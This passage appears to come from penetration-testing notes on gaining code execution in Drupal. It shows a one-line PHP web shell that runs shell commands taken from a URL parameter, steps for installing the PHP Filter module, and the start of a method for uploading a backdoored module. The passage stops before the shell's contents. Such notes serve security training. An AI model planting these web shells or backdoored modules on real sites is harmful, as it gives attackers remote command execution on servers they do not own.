 We can now create a page with a malicious PHP snippet such as the one below.

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

 Set `Text format` drop-down to `PHP code`

## Installing PHP Filter module myself (From version 8 onwards)

PHP Filter module is not installed by default. To leverage this functionality, we would have to install the module ourselves.

```bash
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Once downloaded go to `Administration` > `Reports` > `Available updates`.

![image.png](../../Images/CMS_image1.png)

## **Uploading a Backdoored Module**

Drupal allows users with appropriate permissions to upload a new module. A backdoored module can be created by adding a shell to an existing module.

### Download the archive and extract its contents.

```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz

tar xvf captcha-8.x-1.2.tar.gz
```

### Create a PHP web shell with the contents:
